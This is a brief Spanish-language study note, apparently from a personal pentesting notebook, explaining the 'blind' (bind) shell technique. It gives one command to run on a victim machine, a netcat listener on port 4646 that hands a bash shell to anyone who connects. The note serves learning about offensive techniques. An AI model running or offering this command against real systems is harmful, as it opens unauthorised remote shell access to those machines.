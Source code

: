 #vulnerabilidad #explotacion #shell 

-------
Una **Blind Shell** no envía una consola interactiva a tu equipo. En cambio, habilita un puerto temporal con una **bash** activa, de modo que cuando te pones en escucha en ese puerto, ya tienes acceso a este tipo de shell.

Algunos comandos que se pueden ejecutar en la máquina víctima son:

`nc -nlvp 4646 -e /bin/bash`

Este comando escucha en el puerto 4646 y ejecuta la bash, proporcionando acceso a una Shell sin necesidad de una interacción directa o consola que envíe retroalimentación en tiempo real.